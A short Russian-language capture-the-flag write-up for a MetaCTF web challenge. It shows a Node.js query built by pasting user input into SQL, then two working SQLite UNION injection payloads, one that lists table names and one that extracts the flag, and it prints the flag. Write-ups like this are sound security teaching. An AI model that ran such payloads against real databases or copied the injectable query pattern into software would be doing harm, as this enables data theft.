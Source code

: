 # Yummy Vegetables

Я люблю свои овощи, но никогда не могу вспомнить, какого они цвета! Я знаю,
что у многих есть эта проблема, поэтому я создал [сайт](http://host.cg21.metaproblems.com:4010/), чтобы помочь.

Вот немного соуса к овощам: `index.js`

---

Уязвимая строка

    const query = `SELECT * FROM veggies WHERE name LIKE '%${req.body.query}%';`;

Можно сотавить запрос который названия таблицы в базе

    %' and 0 UNION SELECT name, null, null FROM  sqlite_schema WHERE type ='table' AND name NOT LIKE 'sqlite_%';--

Взять поле flag из таблицы the_flag...

    %' and 0 UNION SELECT flag, null, null FROM the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5;--

    # MetaCTF{sql1t3_m4st3r_0r_just_gu3ss_g0d??}
